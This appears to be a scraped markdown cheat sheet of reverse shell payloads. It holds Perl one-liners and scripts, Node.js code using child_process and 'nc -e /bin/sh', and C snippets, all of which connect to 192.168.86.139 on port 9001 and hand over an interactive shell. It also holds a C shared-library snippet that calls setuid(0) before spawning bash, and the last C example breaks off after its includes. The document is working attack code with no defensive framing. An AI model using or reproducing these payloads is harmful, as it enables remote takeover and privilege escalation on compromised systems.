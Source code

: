 ### perl reverse shell
```perl
# Example 1
perl -e 'use Socket;$i="192.168.86.139";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Example 2
use Socket

$i="192.168.86.139";
$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

### nodejs reverse shell
```node
# Example 1
require('child_process').exec('nc -e /bin/sh 192.168.86.139 9001')

# Example 2
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9001, "192.168.86.139", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

### c reverse shell
```c
######################### Example 1 #############################
## Compile : gcc -shared -o libchill.so -fPIC libchill.c

#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int greetings(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}


######################### Example 2 #############################
## Compile : gcc shell.c -o shell

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
```